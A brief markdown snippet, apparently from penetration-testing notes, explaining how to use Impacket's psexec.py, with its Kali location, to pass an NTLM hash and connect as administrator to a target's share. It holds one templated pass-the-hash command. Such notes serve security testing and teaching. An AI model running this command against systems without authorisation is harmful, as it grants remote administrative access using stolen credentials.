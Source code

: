# psexec.py

If you have a hash, you can try passing the hash to connect to the a share:

(located in Kali under `usr/share/doc/python3-impacket/examples`)

```
$ python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee.<hash> administrator@<target_IP>
```